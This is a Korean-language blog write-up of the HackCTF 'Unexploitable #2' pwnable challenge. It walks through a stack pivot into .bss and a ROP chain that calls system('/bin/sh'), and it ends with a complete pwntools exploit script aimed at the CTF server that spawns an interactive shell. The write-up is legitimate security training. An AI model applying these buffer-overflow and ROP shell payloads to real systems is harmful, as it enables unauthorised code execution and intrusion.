 ```yaml
---
layout: post
title:  "HacCTF Unexploitable #2 write-up"
date:   2020-03-17 19:45:55
image:  hackctf_unex2.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```




### 1.  문제

---

**1) mitigation 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%202/Untitled.png)

NX 비트가 걸려있다.
<br><br><br>

**2) 문제 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%202/Untitled%201.png)

바이너리를 실행시켜보면 fflush가 없다! 라는 의미의 문자열이 출력되고 입력을 한번 받는다. 그리고 바로 종료가 된다
<br><br><br>

**3) 코드흐름 파악**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%202/Untitled%202.png)

메인을 보면 매우 간단하다. 저번 " Unexploitable #2 " 문제와 매우 유사한데, 차이점은 fflush함수가 없다는 것이다. 저번 문제에서는 .Load 영역에 존재하는 fflush 문자열을 이용하여 간편하게 풀수가 있었다.
<br><br>
하지만 이번에는 fflush가 없으므로 다른 방법으로 풀어야 한다. 또한 gift 함수가 마찬가지로 존재한다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%202/Untitled%203.png)


<br><br><br>
### 2. 접근방법

---

저번에 3가지의 방법으로 문제를 풀었었다. 이 중 한가지를 이용하여 문제를 해결하면 된다.

우선, pop rbp; ret 가젯이 존재한다면, rbp값을 변조하여 fget의 버퍼 주소를 바꿔치기 가능하다. 
<br><br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%202/Untitled%204.png)

rbp-0x10 영역에 입력한 데이터를 저장하므로, 우리는 .bss 영역의 주소를 구한뒤, + 0x10을 하여 rbp값을 저장시키면 된다. 그다음 메인으로 다시 돌아가 gitf함수의 system 함수를 이용하면 된다.

여기서 그냥 바로 gift함수로 가면 rdi에 이상한 값이 들어가게 되므로 rdi값을 저장하는 라인 이후를 ret에 넣어야 한다.
<br><br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%202/Untitled%205.png)

따라서 0x40067A 로 돌아가게 하면 된다.

정리를 해보면 다음의 시나리오를 통해 익스를 하면 된다.

<br><br><br>
- **시나리오**
    1. **ret를 pop rbp;ret 로 하여 fgets의 데이터 저장 변수를 바꿔치기 한다.**

        payload = ret(pop rbp;ret 주소) + (.bss주소+0x10) + (main+99 부분)

        sendline(payload)

    2.  **.bss영역에 /bin/sh를 저장한뒤 system함수 호출하기**
        - /bin/sh를 보내면 .bss 영역에 저장되는데 해당 영역 +0x10가 다음 ret위치이다.
        - 따라서 /bin/sh + 0x10에 pop rdi;ret 주소를 넣는다
        - 그다음 rdi에 .bss 주소가 들어가야 하므로 해당 bss 주소를 이어서 붙힌다
        - 그다음 ret를 gitf + 9 위치로 가게끔 한다

        payload =  "/bin/sh\x00" + 더미*0x10 + pop rdi;ret 주소 + .bss주소(rdi에 저장될) + (gift+9 ⇒ ret될 주소임)


<br><br><br><br>

### 3. 풀이

---

최종 익스코드는 다음과 같다
```python
from pwn import *
context.log_level="DEBUG"
p=remote("ctf.j0n9hyun.xyz",3029)
#p=process("./Unexploitable_2")
#gdb.attach(p)

pr=0x4005e0 # pop rbp;ret;
prdi=0x400773 # pop rdi;ret;
bss=0x601050+0x900
main_99=0x4006EE
p.recvuntil("\n")

payload="A"*0x18
payload+=p64(pr)
payload+=p64(bss+0x10)
payload+=p64(main_99)

p.sendline(payload)
payload2="/bin/sh\x00"
payload2+="B"*0x10
payload2+=p64(prdi)
payload2+=p64(bss)
payload2+=p64(0x40067F) #gift+9
pause()
p.sendline(payload2)
p.interactive()
```

<br><br><br><br>
### 4. 몰랐던 개념

---

none